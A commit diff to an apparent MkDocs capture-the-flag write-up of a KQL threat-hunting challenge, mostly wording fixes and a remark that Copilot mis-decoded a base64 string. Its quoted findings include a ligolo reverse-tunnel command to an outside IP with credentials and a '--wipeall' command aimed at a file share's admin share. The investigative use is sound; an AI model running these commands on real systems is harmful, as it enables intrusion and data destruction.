

Before and after one commit to alphathreethree/kc23, an MkDocs documentation site: the page built from docs/objectives/o13.md, in a window 1280 px wide and 1400 px high, scrolled down 2743 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
fixed kql text

```diff
--- a/docs/objectives/o13.md
+++ b/docs/objectives/o13.md
@@ -134,7 +134,8 @@ The attacker created an reverse tunnel connection with the compromised machine.
 	"ligolo" --bind 0.0.0.0:1251 --forward 127.0.0.1:3389 --to 113.37.9.17:22 --username rednose --password falalalala --no-antispoof
 
 What is the timestamp when the attackers enumerated network shares on the machine?  2023-12-02T16:51:44Z
-	This is from the 'net share' command when it should have been 'net use'
+
+	This is from the 'net share' command when it should have been from the 'net use' command
 
 What was the hostname of the system the attacker moved laterally to? NorthPolefileshare
 
@@ -164,11 +165,13 @@ What is the name of the executable the attackers used in the final malicious com
 What was the command line flag used alongside this executable?  --wipeall
 
 ----- Solution ------
+
 print base64_decode_tostring('QmV3YXJlIHRoZSBDdWJlIHRoYXQgV29tYmxlcw==')
 Beware the Cube that Wombles
 
 
 ----- Notes --------
+
 Case 4 time stamp for the command to list network shares was actually not correct. The challenge accepted the timestamp of the net /share command rather than net use.
 
     Powershell code found:
@@ -191,6 +194,8 @@ C:\Windows\System32\downwithsanta.exe --wipeall \\\\NorthPolefileshare\\c$
 
 ### Images
 
+Notice that Copilot did not translate this correctly. This caused me a lot of frustration until I went back and looked at the code manually. For some reason Copilot excluded the 'Naughty' part of the string.
+
 ![MS Copilot help](../img/objectives/o13/decoded_from_ms_copilot.PNG)
 
 
@@ -200,8 +205,4 @@ C:\Windows\System32\downwithsanta.exe --wipeall \\\\NorthPolefileshare\\c$
 ## Response
 
 !!! quote "Tangle Coalbox"
-    I had my doubts, but you've proven your worth.
-
-That phishing scheme won't trouble our client's organization anymore, thanks to your keen eye and investigatory prowess.
-
-So long, Gumshoe, and be careful out there.
+    I had my doubts, but you've proven your worth. That phishing scheme won't trouble our client's organization anymore, thanks to your keen eye and investigatory prowess. So long, Gumshoe, and be careful out there.
```
